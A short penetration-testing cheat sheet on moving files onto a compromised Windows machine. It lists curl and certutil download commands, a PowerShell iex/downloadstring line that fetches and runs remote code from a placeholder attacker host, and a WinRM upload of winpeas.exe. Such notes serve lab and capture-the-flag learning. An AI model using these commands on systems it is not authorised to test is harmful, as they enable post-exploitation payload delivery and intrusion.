 Transferring files to the compromised windows machine:

- `curl -o <filename> http://<server>`
- `certutil.exe -urlcache -f http://<IP ADDRRESS>/<file name> <file name>`
- `iex(new-object net.webclient).downloadstring('http://<IP>/<filename>')`

Using winrm
`upload <full path to local file> <full path to destination`> for example `upload /home/kali/tools/winpeas.exe C:\\users\\tadi\\winpeas.exe`